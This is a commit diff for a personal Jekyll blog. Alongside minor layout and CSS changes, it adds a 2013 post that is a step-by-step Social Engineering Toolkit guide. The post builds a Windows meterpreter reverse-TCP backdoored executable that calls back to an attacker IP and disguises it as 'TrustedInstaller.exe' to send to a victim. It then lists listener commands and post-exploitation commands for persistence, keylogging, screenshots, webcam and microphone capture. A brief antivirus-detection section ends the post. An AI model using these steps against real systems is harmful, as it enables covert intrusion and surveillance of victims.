

Before and after one commit to matrixfox/matrixfox.github.io, a Jekyll site: the page built from blog.html, in a window 1280 px wide. Shown: the top 481 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; Markdown is read by kramdown in place of the engine named in the settings.

Commit message:
Uploading Old New Blog

```diff
--- a/_layouts/post.html
+++ b/_layouts/post.html
@@ -3,8 +3,10 @@ layout: default
 ---
 <h4>Current <span>Article</span></h4>
 
-<small>Posted: {{page.posted}}</small>
+
+
 <article>
 <h2>{{page.title}}</h2>
+<small>Posted: {{page.posted}}</small>
 {{content}}
 </article>
--- /dev/null
+++ b/_posts/2013-12-11-kali-linux-se-toolkit-social-engineering-toolkit.md
@@ -0,0 +1,118 @@
+---
+layout: post
+title: Kali Linux se-toolkit Social Engineering Toolkit
+meta: How to use Kali Linux se-toolkit Social Engineering Toolkit. Start by going to Applications > Kali Linux > Exploitation Tools > Social Engineering Toolkit > se-toolkit
+posted: 11-12-2013
+category: blog
+---
+
+<h3>Getting Started</h3>
+<p>Applications > Kali Linux > Exploitation Tools > Social Engineering Toolkit > se-toolkit</p>
+<code>1) Social-Engineering Attacks</code><br>
+<code>4) Create a Payload and Listener</code>
+<p>Select the localhost machine. Remember: This is the attackers IPv4 address.</p>
+<code>verse): 192.168.1.100</code><br>
+<code>2) Windows Reverse_TCP meterpreter | Spawn a meterpreter shell on victim and send back to attacker</code><br>
+<code>16) Backdoored Executable (Best)</code>
+<p>Press, <b>"{ENTER}"</b> to select port 443 for the listener.</p>
+<code>set:payloads> Port of the listener [443]: {ENTER}</code>
+<p>Type, <b>"yes"</b> to start the listener now. There's a way to restart the listener at any time.</p>
+<code>set> Start the listener now? [yes|no]: yes</code>
+<p>Locate the "msf.exe" in "/usr/share/set" and,</p>
+<p>Right Mouse Click > Properties > Permissions > Poperties Execute Allow</p>
+<p>Rename "msf.exe" to "TrustedInstaller.exe" and send to victum pc.</p>
+
+<br>
+
+<h3>Restarting Listener</h3>
+<ol>
+	<li><code>msfconsole</code></li>
+	<li><code>use exploit/multi/handler</code></li>
+	<li><code>set PAYLOAD windows/meterpreter/reverse_tcp</code></li>
+	<li><code>set LPORT 443</code></li>
+	<li><code>set LHOST 192.168.1.100</code></li>
+	<li><code>exploit</code></li>
+</ol>
+
+<br>
+
+<table>
+  <thead>
+    <tr>
+    <th>Simple Commands</th>
+    <th>Description</th>
+    </tr>
+  </thead>
+  <tbody>
+    <tr>
+      <td>help</td>
+      <td>Help menu</td>
+    </tr>
+    <tr>
+      <td>sessions -v</td>
+      <td>List all running sessions</td>
+    </tr>
+    <tr>
+      <td>sessions -i 1</td>
+      <td>Opens sessions #1</td>
+    </tr>
+    <tr>
+      <td>ps</td>
+      <td>List running process</td>
+    </tr>
+    <tr>
+      <td>migrate 1892</td>
+      <td>1892 = sessions 1 explorer.exe</td>
+    </tr>
+    <tr>
+      <td>run persistence -h</td>
+      <td>Shows persistences help</td>
+    </tr>
+    <tr>
+      <td>run persistence -U -i 5 -p 443 -r 192.168.100.100</td>
+      <td>Runs .exe on startup</td>
+    </tr>
+    <tr>
+      <td>keyscan_start</td>
+      <td>Starts capturing keystrokes</td>
+    </tr>
+    <tr>
+      <td>keyscan_dump</td>
+      <td>Dump the keystroke buffer</td>
+    </tr>
+    <tr>
+      <td>keyscan_stop</td>
+      <td>Stops captureing keystrokes</td>
+    </tr>
+    <tr>
+      <td>screenshot</td>
+      <td>Grab a screenshot of the interactive desktop</td>
+    </tr>
+    <tr>
+      <td>webcam_snap</td>
+      <td>Take a snapshot from the specified webcam</td>
+    </tr>
+    <tr>
+      <td>record_mic</td>
+      <td>Record audio from the default microphone for X seconds</td>
+    </tr>
+  </tbody>
+</table>
+
+<br>
+
+<h3>Removing</h3>
+<p>As of right now <a href='#'>Comodo Internet Secuirty</a> detects the following threat.</p>
+<h6>TrojWare.Win32.Rozena.A@275288211</h6>
+<ul>
+<li>C:\Users\john\AppData\Local\Temp\radCC758.tmp\svchost.exe</li>
+<li>Parent: wsript.exe(1628)</li>
+</ul>
+<h6>TrojWare.VBS.TrojanDropper.Agent.fe@299958242</h6>
+<ul>
+<li>C:\Users\john\AppData\Local\Temp\iktauyz.vbs</li>
+</ul>
+<h6>Heur.Gen.Lama@117024093</h6>
+<ul>
+<li>C:\Users\john\Desktop\TrustedInstaller.exe</li>
+</ul>
--- a/blog.html
+++ b/blog.html
@@ -5,9 +5,9 @@ meta: Read all about Matrixfox's blog adventures. Monthly posts are added. In th
 ---
 
 <h4>News<span> Articles</span></h4>
-<article class="post">
+<article>
 	{% for blog in site.posts %}
-	<figure>
+	<figure class="post">
 		<small>Posted: {{blog.posted}}</small>
 		<figcaption><a href="{{blog.url}}"><h2>{{blog.title}}</h2></a><br>{{blog.meta}}</figcaption>
 	</figure>
--- a/stylesheets/stylesheet.css
+++ b/stylesheets/stylesheet.css
@@ -93,6 +93,9 @@ p {
   margin-bottom: 0px;
   border: 0px solid #ddd;
   border-radius: 0px;
+}
+code {
+  white-space: normal;
 }
 /* Main Style Sheet */
 @font-face {
@@ -343,6 +346,25 @@ figcaption a {
 }
 .post {
   border-top: 1px solid #777;
+  margin-top: 20px;
+}
+table {
+  width: 100%;
+  border-collapse: collapse;
+}
+tr:nth-of-type(odd) {
+  background: #f21d2f;
+}
+th {
+  background: #333;
+  color: white;
+  font-weight: bold;
+}
+td,
+th {
+  padding: 6px;
+  border: 1px solid #ccc;
+  text-align: left;
 }
 /*
  *
```
Also changed, not shown: _src/less/main.less (+26 -0 lines), _src/less/reset.less (+7 -0 lines).
